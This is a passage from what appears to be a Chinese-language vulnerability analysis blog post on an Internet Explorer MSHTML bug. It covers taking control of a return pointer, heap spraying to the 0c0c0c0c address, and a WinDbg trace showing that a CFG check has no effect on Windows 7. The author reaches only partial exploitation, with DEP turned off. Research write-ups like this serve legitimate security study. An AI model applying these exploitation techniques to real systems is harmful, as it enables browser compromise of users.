 可以看到，在返回后，我们可以成功控制这个返回指针了。接下来，我们利用heap spray来喷射堆，从而稳定控制0c0c0c0c位置的值。

[![](./img/85733/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01d2582ad20ce40a96.png)

<br>

**CFG???从PoC到半个exploit**

到此，我们完成了对漏洞函数返回值的控制，在文章最开始的时候，我们看到这个指针的值中的成员变量，会作为虚函数在后续call调用中引用，在此之前，会有一处CFG check。



```
0:007:x86&gt; p//eax已经被我们控制，跳转到喷射结束的堆中
MSHTML!Layout::MultiColumnBoxBuilder::HandleColumnBreakOnColumnSpanningElement+0x2c3d45:
683cfc96 8b18            mov     ebx,dword ptr [eax]  ds:002b:0c0c0bb0=0c0c0c0c
0:007:x86&gt; p
MSHTML!Layout::MultiColumnBoxBuilder::HandleColumnBreakOnColumnSpanningElement+0x2c3d47:
683cfc98 8b03            mov     eax,dword ptr [ebx]  ds:002b:0c0c0c0c=0c0c0c0c
0:007:x86&gt; p
MSHTML!Layout::MultiColumnBoxBuilder::HandleColumnBreakOnColumnSpanningElement+0x2c3d49:
683cfc9a 8bb8a4010000    mov     edi,dword ptr [eax+1A4h] ds:002b:0c0c0db0=0c0c0c0c
0:007:x86&gt; p
MSHTML!Layout::MultiColumnBoxBuilder::HandleColumnBreakOnColumnSpanningElement+0x2c3d4f:
683cfca0 8bcf            mov     ecx,edi
0:007:x86&gt; p
MSHTML!Layout::MultiColumnBoxBuilder::HandleColumnBreakOnColumnSpanningElement+0x2c3d51:
683cfca2 ff1534afb568    call    dword ptr [MSHTML!__guard_check_icall_fptr (68b5af34)] ds:002b:68b5af34=67ac4b50//进入CFG check函数
0:007:x86&gt; t
MSHTML!CJSProtocol::`vftable'+0xc://这个CFG并无实际作用，直接返回了
67ac4b50 8bc0            mov     eax,eax
0:007:x86&gt; p
MSHTML!CElement::OnGCFilteredForReplacedElem:
67ac4b52 c3              ret
```



这个CFG check在Win7中没有实际作用，如上代码跟踪的片段，进入CFG check之后，直接返回了，但是在高版本的Windows中，必须考虑CFG防护的绕过。

[![](./img/85733/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01720e6e500169a3cf.png)

但是由于所有地址模块都开启了ASLR，而利用面来看的话，并没有地方可以泄露内存信息，也没有其他好用的利用点，这样的话就不好绕过ASLR和DEP，我在关闭win7 DEP的情况下，完成了利用。

[![](./img/85733/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01cd2775ee947e66d8.png)

感谢大家阅读，如果有不当之处，请大家多多交流，谢谢！
